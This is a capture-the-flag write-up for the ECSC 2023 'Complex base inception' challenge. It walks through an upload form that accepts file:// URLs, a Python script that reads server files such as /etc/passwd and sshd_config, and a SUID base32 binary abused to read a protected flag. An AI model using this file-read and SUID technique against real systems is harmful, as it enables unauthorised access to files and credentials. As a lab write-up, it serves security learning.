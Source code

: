 # Complex base inception

We get an URL to a minimalistic website with image upload functionality. Our task is to login via SSH, and we are provided a base64-encoded password: `L0ng4ndStr0ngPass1sTheBaseSomeW3irdTxt`

After inspecting client side code and requests, we see that images are base64 encoded, and then passed to the server as form data - `image=data:image/png;base64,...`

This hints us that there we might pass other URL formats to the /upload path. Indeed, that's right. We gain the server's IP address by passing `https://webhook.site/...` as image - `38.60.249.147`. But that's not everything... `ssh root@38.60.249.147` doesn't just work.

Another idea is to try path traversal with `file:///` protocol. I made a helper script to retrieve files:

```py
import requests
import sys
import re
import base64

file = sys.argv[1]

s = requests.Session()

s.get('https://complex-base-inception.ecsc23.hack.cert.pl/')

r = s.post('https://complex-base-inception.ecsc23.hack.cert.pl/upload/', data={'image': f'file://{file}'})
r = s.get('https://complex-base-inception.ecsc23.hack.cert.pl/gallery/')

match = re.search(r'base64,(.+)"', r.text, re.M|re.I)

if match is None:
    print('Error')
    print(r.text)
    exit()

text = base64.b64decode(match.group(1).encode()).decode()
print(text)
```

Let's find some interesting files.
- in `/etc/passwd` we see a suspicous `base64` user
- in `/etc/ssh/sshd_config` we see that SSH port has been changed to 64 - very cool base64 reference

So, we login to `ssh base64@38.60.249.147 -p64`

In our home folder we see our flag file - flag.b64! But we don't have access to it...

Let's find binaries with suid on the system.

```sh
find / -perm -u=s -type f 2>/dev/null
```

`/usr/bin/base32` has it! Another cool reference.

Let's retrieve the flag by usign
```sh
/bin/base32 flag.b64 | /bin/base32 -d | base64 -d
```
and profit

`ecsc23{some_unguessable_text_and_some_salt_dtcpkhaa}`
